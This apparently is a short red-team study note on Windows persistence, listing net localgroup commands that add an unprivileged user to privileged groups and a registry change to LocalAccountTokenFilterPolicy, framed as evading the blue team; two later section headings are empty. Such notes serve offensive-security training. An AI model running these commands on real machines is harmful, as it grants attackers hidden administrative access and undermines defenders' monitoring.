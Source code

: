 # make Unprivileged users to have cirtical access
Having an administrator's credential would be the easiest way to achieve persistence in a machine. However, to make it harder for the blue team to detect us, we can manipulate unprivileged users, which usually won't be monitored as much as administrators, and grant them administrative privileges somehow.


## Assign Group Memberships
```ps1
# make it part of the Administrators group But this looks too suspicious
net localgroup administrators <Unpriv-username> /add
#  make it part of the BackupOperators group. Users in this group will be allowed to read/write any file or registry key, ignoring DACL
net localgroup "Backup Operators" <Unpriv-username> /add
# it still cannot RDP or WinRM back to the machine, we add it to the Remote Desktop Users (RDP) or Remote Management Users (WinRM) groups
net localgroup "Remote Management Users" <Unpriv-username> /add
# we are a part of Backup Operators, but the group is disabled, we'll have to disable LocalAccountTokenFilterPolicy: 
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

## Special Privileges and Security Descriptors

## RID Hijacking
